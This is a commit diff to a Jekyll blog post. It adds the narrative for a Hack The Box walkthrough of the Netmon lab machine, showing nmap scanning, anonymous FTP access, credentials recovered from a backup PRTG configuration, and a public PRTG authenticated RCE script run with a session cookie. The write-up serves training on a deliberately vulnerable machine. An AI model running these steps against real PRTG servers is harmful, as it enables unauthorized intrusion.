

Before and after one commit to thatvirdiguy/thatvirdiguy.github.io, a Jekyll site: the page built from _posts/2022-02-23-hack-the-box:-netmon.md, in a window 1280 px wide and 1400 px high, scrolled down 5734 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
blog post

````diff
--- a/_posts/2022-02-23-hack-the-box:-netmon.md
+++ b/_posts/2022-02-23-hack-the-box:-netmon.md
@@ -1,3 +1,9 @@
+This is my write-up/walkthrough for [the Hack The Box machine, Netmon](https://app.hackthebox.com/machines/Netmon). It's a Windows machine, rated "Easy", with 10.10.10.152 as its IP address.
+
+![Alt text](/images/netmon/2022-02-23-hack-the-box-netmon-01.JPG "Netmon Info Card")
+
+I started with an nmap scan—
+
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ sudo nmap -sC -sV -A 10.10.10.152
@@ -65,12 +71,14 @@
 Nmap done: 1 IP address (1 host up) scanned in 315.44 seconds
 ```
 
+—that told me I have port 21 (FTP), port 80 (HTTP), port 135 (RPC), port 139 (NetBIOS), and port 445 (SMB) to work with. Anonymous login is allowed for FTP, so my first instinct was to use that and see if it gets us somewhere.
+
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ ftp 10.10.10.152                                                                                                                                                                   130 ⨯
 Connected to 10.10.10.152.
 220 Microsoft FTP Service
-Name (10.10.10.152:kali): anonymous
+Name (10.10.10.152:thatvirdiguy): anonymous
 331 Anonymous access allowed, send identity (e-mail name) as password.
 Password:
 230 User logged in.
@@ -122,10 +130,14 @@
 e2780575a4614d4d503d3c171b023190
 ```
 
+And that was it! That got me the user flag already.
+
+It didn't look like FTP would get us the root flag, so I moved on to the next bit on my check list: SMB. Tried for both anonymous authentication and exploit a potential misconfiguration against the Administrator user—
+
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ smbclient -L 10.10.10.152                                                                                                                                                            1 ⨯
-Enter WORKGROUP\kali's password:
+Enter WORKGROUP\thatvirdiguy's password:
 session setup failed: NT_STATUS_ACCESS_DENIED
 
 ┌──(thatvirdiguy㉿kali)-[~]
@@ -133,6 +145,16 @@
 Enter WORKGROUP\Administrator's password:
 session setup failed: NT_STATUS_LOGON_FAILURE
 ```
+
+—but it wasn't fruitful.
+
+Next on the list was port 80, so I pointed my browser to http://10.10.10.152 to see what we are working with here.
+
+![Alt text](/images/jerry/2022-02-23-hack-the-box-netmon-02.JPG "PRTG")
+
+A quick google search led me [here](https://www.paessler.com/prtg), and got a breif overview of this network monitoring tool.
+
+Running a searchsploit for "prtg" gave some curious results—
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
@@ -147,6 +169,10 @@
 ----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Shellcodes: No Results
 ```
+
+—but it looked like we needed authentication on the server to exploit the one I was interested in.
+
+It was time to do some more googling – which led me to [titanssystems's PRTG-Exploit](https://github.com/titanssystems/PRTG-Exploit). According to the readme, the exploit was valid for version before 20.1.55.1775 and since the box is running 18.1.37.13946, we should be able to get something from this. I wasn't sure what, but I decided to give it a shot anyhow.
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
@@ -209,110 +235,20 @@
 cpuload :  92%
 ```
 
-```
-┌──(thatvirdiguy㉿kali)-[~]
-└─$ sudo msfconsole
+Interesting, but didn't really get me anywhere.
 
-%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
-%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
-%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
-%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
-%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
-%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
-%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
-%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
-%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
-%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
+Since I needed the Login Name and Password for the NETMON, I started thinking in terms of exploiting perhaps a misconfiguration on the server. Looking up for the default credentials on an installation led me to [this](https://kb.paessler.com/en/topic/433-what-s-the-login-name-and-password-for-the-prtg-web-interface-how-do-i-change-it) Knowledge Base article over at their website, but prtgadmin:prtgadmin didn't work.
 
+I was lost.
 
-       =[ metasploit v6.1.14-dev                          ]
-+ -- --=[ 2180 exploits - 1155 auxiliary - 399 post       ]
-+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
-+ -- --=[ 9 evasion                                       ]
-
-Metasploit tip: Search can apply complex filters such as
-search cve:2009 type:exploit, see all the filters
-with help search
-
-msf6 > search prtg
-
-Matching Modules
-================
-
-   #  Name                                         Disclosure Date  Rank       Check  Description
-   -  ----                                         ---------------  ----       -----  -----------
-   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE
-
-
-Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce
-
-msf6 > info 0
-
-       Name: PRTG Network Monitor Authenticated RCE
-     Module: exploit/windows/http/prtg_authenticated_rce
-   Platform: Windows
-       Arch: x86, x64
- Privileged: No
-    License: Metasploit Framework License (BSD)
-       Rank: Excellent
-  Disclosed: 2018-06-25
-
-Provided by:
-  Josh Berry <josh.berry@codewatch.org>
-  Julien Bedel <contact@julienbedel.com>
-
-Available targets:
-  Id  Name
-  --  ----
-  0   Automatic Targeting
-
-Check supported:
-  Yes
-
-Basic options:
-  Name            Current Setting  Required  Description
-  ----            ---------------  --------  -----------
-  ADMIN_PASSWORD  prtgadmin        yes       The password for the specified username
-  ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
-  Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
-  RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
-  RPORT           80               yes       The target port (TCP)
-  SSL             false            no        Negotiate SSL/TLS for outgoing connections
-  VHOST                            no        HTTP server virtual host
-
-Payload information:
-
-Description:
-  Notifications can be created by an authenticated user and can
-  execute scripts when triggered. Due to a poorly validated input on
-  the script name, it is possible to chain it with a user-supplied
-  command allowing command execution under the context of privileged
-  user. The module uses provided credentials to log in to the web
-  interface, then creates and triggers a malicious notification to
-  perform RCE using a Powershell payload. It may require a few tries
-  to get a shell because notifications are queued up on the server.
-  This vulnerability affects versions prior to 18.2.39. See references
-  for more details about the vulnerability allowing RCE.
-
-References:
-  https://nvd.nist.gov/vuln/detail/CVE-2018-9276
-  https://www.codewatch.org/blog/?p=453
-
-msf6 >
-```
+At this point, FTP was, and had been so far, my only bet. I figured I'll look around again, not sure what I was looking for.
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ ftp 10.10.10.152
 Connected to 10.10.10.152.
 220 Microsoft FTP Service
-Name (10.10.10.152:kali): anonymous
+Name (10.10.10.152:thatvirdiguy): anonymous
 331 Anonymous access allowed, send identity (e-mail name) as password.
 Password:
 230 User logged in.
@@ -427,6 +363,8 @@
 ftp>
 ```
 
+I downloaded a couple of configuration files. The files themselves were huge, but `grep`'ing for "prtg" narrowed each down to the bits I was intersted in. "`PRTG Configuration.old.bak`" was intriguing, in particular.
+
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ cat 'PRTG Configuration.old.bak' | grep -A2 -B2 -i prtg
@@ -444,6 +382,14 @@
 --
 ```
 
+I tried prtgadmin:PrTg@dmin2018 on the NETMON console, but that didn't get me in. How I eventually got in was pure luck, though now in hindsight, I can tell why what I did worked. When "PrTg@dmin2019" didn't work as the password, I started trying various modifications of it – "prtg@admin2018", "admin@prtg2018", etc. It was a complete shot in the dark until I put in "PrTg@dmin2019" and I got through.
+
+![Alt text](/images/netmon/2022-02-23-hack-the-box-netmon-03.JPG "Welcome")
+
+Why did it work? "`PRTG Configuration.old.bak`", as the name suggests, is an old configuration file. The idea is that the password was, perhaps, updated to keep up with the new year, considering this box's relase date is 2019. Or at least that's my theory.
+
+Now that we have the valid credentials for the NETMON, we can move on to exploit the "PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution" vulnerability from the searchsploit results. A quick google search led me to [chcx's PRTG-Network-Monitor-RCE](https://github.com/chcx/PRTG-Network-Monitor-RCE).
+
 ```
 ┌──(thatvirdiguy㉿kali)-[~]
 └─$ git clone https://github.com/chcx/PRTG-Network-Monitor-RCE.git
@@ -458,12 +404,15 @@
 ┌──(thatvirdiguy㉿kali)-[~/PRTG-Network-Monitor-RCE]
 └─$ ls
 prtg-exploit.sh  README.md
+```
 
+I needed the authenticated cookie for this one, as per the readme, which I got from the following:
+
+![Alt text](/images/netmon/2022-02-23-hack-the-box-netmon-04.JPG "Cookie")
+
+```
 ┌──(thatvirdiguy㉿kali)-[~/PRTG-Network-Monitor-RCE]
-└─$ chmod +x prtg-exploit.sh
-
-┌──(thatvirdiguy㉿kali)-[~/PRTG-Network-Monitor-RCE]
-└─$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=ezBGNTQyRERFLTVFQjktNDg3MC1BQTc1LTgwMEVENDRFNURGOH0%3D; _gat=1"
+└─$ ./prtg-exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=ezkzNDJGODUyLUFBQ0ItNEREMi1CNEYxLUNGM0IzQThGQTdENn0%3D; _gat=1"
 
 [+]#########################################################################[+]
 [*] PRTG RCE script by M4LV0                                                [*]
@@ -492,28 +441,7 @@
 
 ```
 
-```
-┌──(thatvirdiguy㉿kali)-[~]
-└─$ smbclient -L 10.10.10.152 -U pentest
-Enter WORKGROUP\pentest's password:
-
-        Sharename       Type      Comment
-        ---------       ----      -------
-        ADMIN$          Disk      Remote Admin
-        C$              Disk      Default share
-        IPC$            IPC       Remote IPC
-Reconnecting with SMB1 for workgroup listing.
-do_connect: Connection to 10.10.10.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
-Unable to connect with SMB1 -- no workgroup available
-
-┌──(thatvirdiguy㉿kali)-[~]
-└─$ smbclient -N \\\\10.10.10.152\\ADMIN$ -U pentest
-session setup failed: NT_STATUS_LOGON_FAILURE
-
-┌──(thatvirdiguy㉿kali)-[~]
-└─$ smbclient -N \\\\10.10.10.152\\ADMIN$ -U DOMAIN/pentest                                                                                                                              1 ⨯
-session setup failed: NT_STATUS_LOGON_FAILURE
-```
+Next was to use Impacket and these credentials to get a reverse shell on my machine.
 
 ```
 ┌──(thatvirdiguy㉿kali)-[~/impacket/examples]
````
Also changed, not shown: images/netmon/2022-02-23-hack-the-box-netmon-02.JPG (added), images/netmon/2022-02-23-hack-the-box-netmon-03.JPG (added), images/netmon/2022-02-23-hack-the-box-netmon-04.JPG (added).
